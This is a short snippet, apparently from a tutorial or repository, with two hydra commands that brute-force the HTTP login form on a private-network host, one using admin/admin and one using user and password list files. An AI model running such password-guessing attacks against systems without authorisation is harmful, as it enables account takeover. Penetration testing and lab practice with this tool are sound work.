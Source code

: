 hydra -l admin -p admin -s 8099 10.0.0.13 http-post-form "/login:username=^USER^&password=^PASS^:Please log in"

oder:
hydra -L user.list -P pass.list -s 8099 10.0.0.13 http-post-form "/login:username=^USER^&password=^PASS^:Please log in"